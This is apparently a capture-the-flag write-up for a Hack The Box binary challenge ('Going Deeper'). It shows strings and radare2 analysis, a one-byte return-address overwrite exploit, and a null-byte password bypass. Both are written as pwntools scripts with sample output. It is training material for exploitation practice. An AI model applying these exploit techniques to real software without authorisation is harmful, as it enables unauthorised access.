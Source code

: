 # Space pirate: Going Deeper
*We are inside D12! We bypassed the scanning system, and now we are right in front of the Admin Panel. The problem is that there are some safety mechanisms enabled so that not everyone can access the admin panel and become the user right below Draeger. Only a few of his intergalactic team members have access there, and they are the mutants that Draeger trusts. Can you disable the mechanisms and take control of the Admin Panel?*

## Checking out the binary
Let's start the program first and see what we're dealing with.  
  
![Intro Screen](img/going_deeper_intro.png)

Both option 1. and 2. request some kind of authentication from us, that we can't provide.
If just enter anything we get an error message and the program terminates  
  
![Auth Fail](img/going_deeper_auth_fail.png)  

Maybe the password is just a string that's saved in the binary itself. Let's check with
```bash
cjreek@kali:~$ strings ./sp_going_deeper
```
We find a pretty suspicious string that might be the password we're looking for:
<pre>
...  
[\*] Username:  
[!] Exiting..  
<b>DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft</b>  
%s[+] Welcome admin! The secret message is:   
cat flag*  
%s[-] Authentication failed!  
...  
</pre>

![Fail and Segfault](img/going_deeper_auth_segfault.png)  
When we try, we not only get denied, but it seems like the password is already too big for the internal buffer and causes a buffer overflow with a resulting segmentation fault.

## Debugging and analyzing
Let's load up the binary in Radare2 and let's see what we can find there.
```bash
cjreek@kali:~$ r2 -d ./sp_going_deeper
```
First we analyze the binary
```
[0x00400b47]> aaa
```
Let's see what functions there are:
```lua
[0x00400b47]> afl
0x004007a0    1 43           entry0
0x004007e0    4 42   -> 37   sym.deregister_tm_clones
0x00400810    4 58   -> 55   sym.register_tm_clones
0x00400850    3 34   -> 29   sym.__do_global_dtors_aux
0x00400880    1 7            entry.init0
0x00400c10    1 2            sym.__libc_csu_fini
0x00400c14    1 9            sym._fini
0x004009e9   18 350          sym.admin_panel
0x004008dd    1 191          sym.banner
0x00400750    1 6            sym.imp.time
0x00400740    1 6            sym.imp.srand
0x00400790    1 6            sym.imp.rand
0x004006f0    1 6            sym.imp.puts
0x00400ba0    4 101          sym.__libc_csu_init
0x004007d0    1 2            sym._dl_relocate_static_pie
0x00400b47    1 84           main
0x0040099c    1 77           sym.setup
0x00400760    1 6            sym.imp.setvbuf
0x00400720    1 6            sym.imp.alarm
0x00400887    1 86           sym.read_num
0x00400730    1 6            sym.imp.read
0x00400770    1 6            sym.imp.strtoul
0x004006b8    3 23           sym._init
0x004006e0    1 6            sym.imp.strncmp
0x00400700    1 6            sym.imp.system
0x00400710    1 6            sym.imp.printf
0x00400780    1 6            sym.imp.exit
```
It's time to switch to visual mode
```
[0x00400b47]> V
```
and navigate to the debugging view by pressing ``p`` twice  
Now we navigate to the ``main`` function by opening the command line with ``Shift+:`` and then
```
:> s main
```
We immediately see a call to ``sym.admin_panel`` where the code of the menu options seem to be contained.  
Let's go there with ``s sym.admin_panel``.  
By following both the 1. and 2. options  
  
![Menu Assembly](img/going_deeper_menu.png)  
  
we finally end up at the code that reads and checks our password input  
  
![Password Check](img/going_deeper_pw_check.png)

If we take a look at the code we can see 3 potential ways to get to the flag:
1. We change the the value of ``c`` from 3 to 0x1337beef
2. We override the return address to jump right to the code that prints the flag
3. We pass the correct password as input

Let's overflow the buffer and see how the stack looks before and after the overflow, to see what is and is not possible.  
We see that ``read()`` reads up to 57 bytes from stdin. Let's put a breakpoint right before and after the call to ``read()`` to look at the stack before and after we overflow the buffer:
```
:> db 0x00400aba
:> db 0x00400abf
```
restart the program with the command ``doo`` and hit ``F9`` to continue execution.  
Select either 1. or 2. in the menu. We hit our first breakpoint and we can take a look at our stack:  
  
![Stack before](img/going_deeper_stack_before.png)  
  
We can see the three values (``a``, ``b`` and ``c``) that are checked before the password is checked (purple) and we can discover the return address (0x400b94) of ``admin_panel`` (red)  
  
> **INFO**: If your stack view isn't big enough you can change its size with ``e stack.size = 128``

 Let's hit F9 to continue execution and enter the maximum amount of characters (57)
````
[*] Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
````
Now we should hit the 2nd breakpoint. Let's look at the stack again:  
  
![Stack after](img/going_deeper_stack_after.png)
  
As we can see ``a``, ``b`` and ``c`` are untouched by the buffer overflow. So there is at least no direct way to change those values and get access to the flag that way.  
But the return address gets overwritten by the buffer overflow - or at least the least significant byte of the return address.
That should be good enough though, because the address of the code printing the flag (0x00400b**12**) differs only in this byte from the original return address (0x400b**94**)

## Writing the exploit
So now we are ready to write our exploit

````python
from pwn import *

r = process("./sp_going_deeper")

# navigate to one of the login options
r.sendline(b"1")
r.recvrepeat(0.1)

# send payload to jump to the code printing the flag at 0x00400b12
payload = b"A"*56 # put anything for the first 56/57 bytes
payload += b"\x12" # change one byte of the return address to point to the system() call printing the flag
r.sendline(payload)
r.interactive()
````

Now if we execute that script we get the flag:

<pre>
[+] Starting local process './sp_going_deeper': pid 1735681
[*] Switching to interactive mode

[-] Authentication failed!

[!] For security reasons, you are logged out..

<b>HTB{f4k3_fl4g_4_t35t1ng}</b>

[!] For security reasons, you are logged out..

[*] Got EOF while reading in interactive
$
</pre>

## An alternative way
So what about passing the right password to the programm so it prints the flag voluntarily?  
We tried that already at the beginning when we found the password with the ``strings`` tool, but it didn't work.  
But why did it not work? It's the same password the programm is checking for in the code:  
  
![Strncmp](img/going_deeper_strncmp.png)  
  
There is a catch. The password "**DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft**" is 51 characters long, but ``strncmp`` is told to compare 52 characters.
The 52. character of the string constant the code is comparing our input to is a null byte (\x00) because c-strings are terminated with a null byte.
The 52. character of our input is actually a new line character (``\n`` or ``\x0a``). So that's why the comparison fails.
But there is nothing preventing us from sending a null byte right after the password with pwntools.  
So let's try if that works:

````python
from pwn import *

r = process("./sp_going_deeper")

# navigate to one of the login options
r.sendline(b"1")
r.recvrepeat(0.1)

# send password with trailing null byte
payload = b"DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft\x00"
r.sendline(payload)
r.interactive()
````

And for a fact it actually works as well:
<pre>
[+] Starting local process './sp_going_deeper': pid 1740782
[*] Switching to interactive mode

[+] Welcome admin! The secret message is: <b>HTB{f4k3_fl4g_4_t35t1ng}</b>

[!] For security reasons, you are logged out..

[*] Got EOF while reading in interactive
$
</pre>
